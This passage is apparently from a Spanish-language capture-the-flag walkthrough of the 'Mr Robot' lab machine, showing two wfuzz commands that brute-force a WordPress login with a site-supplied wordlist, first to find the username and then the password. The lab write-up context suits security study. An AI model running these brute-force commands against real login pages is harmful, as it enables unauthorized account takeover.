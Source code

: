 <img src="/imgs/mrRobot/mrRobot8.png"/>
<p>Ahora vemos que es una login asi que teniendo un diccionario que me proporciono la misma pagina web por que no usarlo contra ella?,</p>
> wfuzz -t 200 -c --hs "Invalid username" -z file,fsocity.dic  -d "log=FUZZ&pwd=NULL" http://10.10.94.16/wp-login.php
<p></p>
<img src="/imgs/mrRobot/mrRobot9.png"/>
<p>Ok tenemos ya el username <font color="yellow">Eliot</font>, nos falta ahora la contraseña, hagamos de nuevo lo mismo.</p>
> wfuzz -t 200 -c --hc=200  -z file,fsocity.dic -d "log=Elliot&pwd=FUZZ" http://10.10.94.16/wp-login.php
<p></p>